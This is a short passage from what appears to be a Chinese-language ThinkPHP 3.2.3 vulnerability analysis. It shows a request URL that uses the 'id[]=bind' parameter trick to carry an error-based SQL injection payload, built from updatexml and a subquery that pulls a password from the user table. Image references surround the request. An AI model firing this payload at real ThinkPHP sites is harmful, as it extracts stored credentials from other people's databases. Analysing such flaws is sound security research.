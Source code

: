 ![](ThinkPHP-漏洞分析集合\20.png)

就表示成功`update`了一条语句，然后访问

```
http://localhost/tp3.2.3/index.php
?username=admin
&password=123
&id[]=bind
&id[]=1 and updatexml(1,concat(0x7,(select password from user limit 1),0x7e),1)
```

![](ThinkPHP-漏洞分析集合\21.png)

